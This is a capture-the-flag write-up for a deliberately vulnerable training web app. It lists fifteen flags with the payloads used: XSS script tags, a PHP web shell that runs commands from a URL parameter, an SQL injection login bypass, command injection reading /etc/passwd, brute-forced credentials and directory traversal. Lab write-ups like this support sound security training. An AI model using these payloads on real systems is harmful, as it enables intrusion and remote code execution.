 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 1](images/Day1Flags/flag1.png)

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>

![Flag 2](images/Day1Flags/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>

![Flag 3](images/Day1Flags/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response

![Flag 4](images/Day1Flags/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>

![Flag 5](images/Day1Flags/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands

![Flag 6](images/Day1Flags/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --

![Flag 7](images/Day1Flags/flag7.png)

Flag 8:
Location: Login.php (second field)
Vulnerability: Sensitive data exposure
Method/Payload to Exploit: The username and password are in the HTML, or you can view them by highlighting the webpage.
Username: dougquaid Password: kuato

![Flag 8](images/Day1Flags/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag

![Flag 9](images/Day1Flags/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt

![Flag 10](images/Day1Flags/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag

![Flag 11](images/Day1Flags/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina

![Flag 12](images/Day1Flags/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')

![Flag 13](images/Day1Flags/flag13.png)

Flag 14:
Location: admin_legal_data.php
Vulnerability: Session management
Payload to Exploit: The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) 87 is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).

![Flag 14](images/Day1Flags/flag14.png)

Flag 15:
Location: Disclaimer.php
Vulnerability: Directory traversal
Payload to Exploit: The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run ls to see the old_disclaimers directory. Using that finding, change the URL to: http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt
Note that the resource changed from disclaimer_2.txt to disclaimer_1.txt, as this is the older version.

![Flag 15](images/Day1Flags/flag15.png)

